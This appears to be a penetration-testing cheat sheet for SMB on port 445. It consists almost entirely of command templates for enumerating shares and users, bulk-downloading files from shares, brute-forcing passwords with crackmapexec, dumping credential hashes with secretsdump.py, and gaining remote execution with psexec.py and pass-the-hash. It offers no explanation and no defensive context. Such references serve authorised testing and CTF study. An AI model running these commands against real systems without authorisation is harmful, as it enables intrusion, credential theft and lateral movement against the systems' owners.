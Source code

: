 # 445 - SMB

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RPORT>
smbclient //<RHOST>/<share>
smbget -R smb://<RHOST>/<share>
```

## Listing shares

```bash
smbmap.py -H <target> -u <user> -p <pass/hash>
crackmapexec smb --shares <target> -u <user> -p <pass>
```

## Connecting to share

```bash
smbclient.py <target>
  shares
  use <share>
  ls

mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## SMB commands

```bash
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## Bruteforcing

```bash
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## secretsdump

```bash
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```bash
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```bash
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

## Default shares

```bash
ADMIN$
C$
IPC$
```

